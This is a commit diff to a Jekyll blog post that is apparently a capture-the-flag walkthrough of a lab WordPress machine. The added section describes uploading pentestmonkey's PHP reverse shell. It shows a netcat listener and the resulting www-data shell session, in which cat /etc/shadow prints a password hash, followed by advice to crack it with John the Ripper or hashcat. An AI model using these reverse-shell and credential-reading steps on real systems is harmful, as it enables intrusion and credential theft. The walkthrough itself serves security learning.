

Before and after one commit to jai-the-seeker/musings, a Jekyll site: the page built from _posts/2020-03-26-wlakthrough.markdown, in a window 1280 px wide and 1400 px high, scrolled down 5969 px. Shown: the whole window, without its empty margins (343-1165 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 6939 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated post

```diff
--- a/_posts/2020-03-26-wlakthrough.markdown
+++ b/_posts/2020-03-26-wlakthrough.markdown
@@ -220,10 +220,9 @@ Trying admin / admin Time: 00:03:36 <===========================================
 {% endhighlight %}
 
 With *username* and *password* under our kitty, we can use them to upload the `webshells`. There is a lot of material
-avilable to create a webshell in php. You can refer [hacksland.net](https://hacksland.net/build-a-simple-web-shell/)
-for a simple webshell.
+avilable to create a webshell in php. You can refer [www.acunetix.com](https://www.acunetix.com/websitesecurity/introduction-web-shells/) for a simple webshell and for using `Weevely`, which is a lightweight PHP telnet-like web-shell.
 
-However, for our purpose we will be using the webshell provided by (pentestmonkey)[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]. Just to provide an insight into the
+However, for our purpose we will be using the webshell provided by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just to provide an insight into the
 working of this webshell, it broadly does following :
 
   1. Creates a deamon in the victim machine, which in turn makes a reverse TCP connection with the  attacker machine. `deamons` are in `unix/linux` what `services` are in windows.
@@ -231,3 +230,44 @@ working of this webshell, it broadly does following :
   3. The deamon receives the commands from the attacker machine and passes them to the bash shell through pipes.
   4. The response received from the bash shell is passed to the deamon which inturn sends it to the attacker machine through
 reverse TCP connection.
+
+Once we upload the shell, which can be done with one of the ways mentioned in [www.hackingarticles.in](https://www.hackingarticles.in/wordpress-reverse-shell/), we get the `www-data` access. In order, for the webshell to connect back
+to the Kali attacker machine, we can run `nc`.
+
+{% highlight console %}
+root@kali:~# nc -lvp 1234
+Listening on 0.0.0.0 1234
+{% endhighlight %}
+
+We can also check the status of ports on which the `nc` is running
+
+{% highlight console %}
+root@kali:~# netstat -plntu
+Active Internet connections (only servers)
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
+tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      18166/nc
+{% endhighlight %}
+
+Once, the *webshell* makes a reverse TCP connection we get
+
+{% highlight console %}
+root@kali:~# nc -lvp 1234
+Listening on 0.0.0.0 1234
+Connection received on vtcsec 37790
+Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
+ 20:31:38 up 2 days, 15:39,  0 users,  load average: 0.02, 0.01, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ whoami
+www-data
+$ cat /etc/shadow
+marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
+{% endhighlight %}
+
+In order to find *users* in the linux system you can refer this article [linuxize.com](https://linuxize.com/post/how-to-list-users-in-linux/)
+
+The password can be obtained by cracking the hashes using `John the Ripper` or `hashcat`.
+{% highlight console %}
+1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating Systems
+{% endhighlight %}
```
